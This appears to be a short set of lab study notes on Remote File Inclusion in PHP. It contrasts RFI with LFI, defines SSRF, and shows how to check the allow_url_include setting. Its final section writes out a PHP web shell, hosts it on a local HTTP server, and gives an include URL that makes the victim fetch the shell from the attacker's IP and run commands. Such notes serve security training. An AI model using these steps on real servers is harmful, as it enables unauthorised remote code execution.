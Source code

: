 EVERY RFI IS AN LFI ( THE OTHER DIRECTION ISN’T TRUE) FOR THREE REASONS

1. The vulnerable function may not allow including remote URLs
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

Quick note : SSRF happens when a web application fetches a URL or network resource based on user-controlled input. An attacker tricks the server into making HTTP/other requests the attacker chooses — often to internal-only services the attacker can’t reach directly.

**Verify RFI**

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled. We can check whether this setting is enabled through LFI, as we did in the previous section:

Remote File Inclusion (RFI)

```bash
CSmarwen@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includeallow_url_include = On

```

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content. At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures.

## How to perform RFI

First, create a tiny PHP web shell (or use any reverse/custom shell):

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

```

Host it where the vulnerable server can fetch it — HTTP on common ports (80/443) is best since they’re often allowed through firewalls. FTP/SMB can work too.

Start a simple HTTP server:

```bash
sudo python3 -m http.server 80

```

Then trigger the RFI to include your hosted shell and run a command, e.g.:

```
http://victim/ include.php?page=http://YOUR_IP:80/shell.php&cmd=id

```
